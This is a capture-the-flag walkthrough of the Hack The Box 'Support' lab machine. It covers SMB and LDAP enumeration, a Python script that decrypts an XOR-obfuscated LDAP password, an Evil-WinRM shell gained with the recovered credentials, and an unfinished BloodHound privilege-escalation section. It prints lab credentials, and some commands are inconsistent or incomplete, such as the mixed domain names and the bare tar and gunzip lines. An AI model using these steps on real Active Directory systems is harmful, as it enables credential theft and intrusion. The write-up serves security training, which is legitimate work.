

# HTB Support Walkthrough

## Enumeration

Running nmap on the machine, we got:

```bash
nmap -sC -sV -oA nmap/Support 10.10.11.174
```


Looking at the results, we can see that smb and Active Directory servies are open. The ldap scan is also leaking a domain called support.htb0.

Added it to our hosts file:

```bash
echo "10.10.11.174 support.htb0" | sudo tee -a /etc/hosts
```

Using `smbclient`, access the machine:

```bash
smbclient -L \\support.htb0
smbclient \\support.htb0\support-tools
```

Download and unzip the `UserInfo.exe.config` file into the attacker's machine:

```bash
mget Userinfo.exe.config
unzip UserInfo.exe.config
```

We need to decompile it using **ILSpy**, which can be downloaded through this link:

```bash
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
```

### XOR Logic for Decryption

The password is encrypted using XOR logic with the key `"armando"`.

Key Points:
- **XOR Logic**: The `^` operator performs a bitwise XOR. XORing the same value twice restores the original data: `a ^ b ^ b = a`.
- **Key Cycling**: `key[i % key.Length]` allows the key to "wrap around" when the password bytes exceed the key length.
- **Obfuscation**: The combination of Base64 encoding and XOR operations makes the password harder to discover.

### Python Script for Decryption

We can decrypt the password with a Python script:

```python
import base64

# Encoded password and key
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando"

# Step 1: Base64 decode
decoded_bytes = base64.b64decode(enc_password)

# Step 2: XOR decryption logic
key_bytes = key.encode('ascii')
decrypted_bytes = bytearray()

for i in range(len(decoded_bytes)):
    decrypted_byte = (decoded_bytes[i] ^ key_bytes[i % len(key_bytes)]) ^ 0xDF
    decrypted_bytes.append(decrypted_byte)

# Step 3: Convert the result to a string
try:
    password = decrypted_bytes.decode('utf-8')
    print("Recovered Password:", password)
except UnicodeDecodeError:
    print("Failed to decode decrypted bytes. Output may be binary:", decrypted_bytes)
```

### Output:
```bash
python3 recoverpass.py 
Recovered Password: nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

#### Credentials
```
support//ldap:0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## Exploitation

Now that we have the credentials, let's try searching the machine using LDAP.

If `ldapsearch` doesn't work, use `impacket-GetADUser` instead:

```bash
impacket-GetADUsers -all support.htb/ldap -dc-ip support.htb0
```

Alternatively, use **Apache Directory Studio** for a better view of the AD:

```bash
wget https://dlcdn.apache.org/directory/studio/2.0.0.v20210717-M17/ApacheDirectoryStudio-2.0.0.v20210717-M17-linux.gtk.x86_64.tar.gz
sudo gunzip
sudo tar -xvf
./Apache-Directory-Studio
```

Connect to the AD using LDAP user credentials:

- **Bind DN**: `ldap@support.htb`
- **Password**: `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`

#### Credentials for `support` user:
```
support:Ironside47pleasure40Watchful
```

Now establish a shell using **Evil-WinRM**:

```bash
evil-winrm -i support.htb0 -u support -p Ironside47pleasure40Watchful
```

## Privilege Escalation

Check if the machine is a Domain Controller:

```bash
Get-ADDomain
```

The `InfrastructureMaster` is `dc.support.htb`.

Identify if the user is a member of any groups:

```bash
whoami /groups
```

### Install BloodHound

To identify possible attack paths, install **BloodHound**:

```bash
sudo apt install -y neo4j
sudo neo4j start
```

Download **BloodHound** from here:

```bash
wget https://github.com/SpecterOps/BloodHound-Legacy/releases/download/v4.3.1/BloodHound-linux-x64.zip
unzip the file
./BloodHound --no-sandbox
```

Change the password at `http://localhost:7474`:

- **Credentials**: `neo4j:S@mara1230`

### Collect Data with SharpHound

Now clone BloodHound AD to use `SharpHound.exe`:

```bash
python3 -m http.server
```

In the Evil-WinRM session, fetch `SharpHound.exe`:
```bash
# Download SharpHound.exe
```

```bash
# [Use BloodHound tools to continue]
```

